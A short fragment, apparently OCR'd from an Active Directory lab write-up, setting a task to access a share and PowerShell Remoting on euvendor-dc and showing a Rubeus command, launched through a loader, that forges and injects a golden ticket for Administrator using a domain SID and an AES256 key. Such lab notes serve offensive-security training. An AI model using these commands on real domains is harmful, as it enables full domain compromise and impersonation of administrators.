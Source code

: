 
Task 

• Using the DA access to eu.local: 
− Access eu-share on euvendor-dc. 
− Access euvendor-net using PowerShell Remoting



```
echo %Pwn% golden
```


```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /aes256:b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d /ptt
```
